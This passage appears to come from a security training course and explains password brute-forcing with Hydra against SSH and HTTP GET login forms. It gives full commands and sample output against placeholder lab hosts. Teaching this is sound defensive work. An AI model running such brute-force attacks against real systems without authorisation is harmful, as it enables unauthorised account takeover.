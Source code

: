 SSH

SSH brute-forcing can be common if your server is accessible to the Internet. Hydra supports many protocols, including SSH. We can use the previous syntax to perform our attack! It's important to notice that password attacks rely on having an excellent wordlist to increase your chances of finding a valid username and password.

```
SSH

           
user@machine$ hydra -L users.lst -P /path/to/wordlist.txt ssh://10.10.x.x -v
 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:48:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
[DATA] attacking ssh://10.10.x.x:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://user@10.10.x.x:22
[INFO] Successful, password authentication is supported by ssh://10.10.x.x:22
[22][ssh] host: 10.10.x.x   login: victim   password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found

        
```

HTTP login pages

In this scenario, we will brute-force HTTP login pages. To do that, first, you need to understand what you are brute-forcing. Using hydra, it is important to specify the type of HTTP request, whether GET or POST. Checking hydra options: hydra http-get-form -U, we can see that hydra has the following syntax for the http-get-form option:

	<url>:<form parameters>:<condition string>[:<optional>[:<optional>]

As we mentioned earlier, we need to analyze the HTTP request that we need to send, and that could be done either by using your browser dev tools or using a web proxy such as Burp Suite.

```
hydra

           
user@machine$ hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 

Hydra (http://www.thc.org/thc-hydra) starting at 2021-10-13 08:06:22 
[DATA] max 16 tasks per 1 server, overall 16 tasks, 500 login tries (l:1/p:500), ~32 tries per task 
[DATA] attacking http-get-form://10.10.x.x:80//login-get/index.php:username=^USER^&password=^PASS^:S=logout.php 
[80][http-get-form] host: 10.10.x.x   login: admin password: xxxxxx 
1 of 1 target successfully completed, 1 valid password found 
Hydra (http://www.thc.org/thc-hydra) 
finished at 2021-10-13 08:06:45

        
```
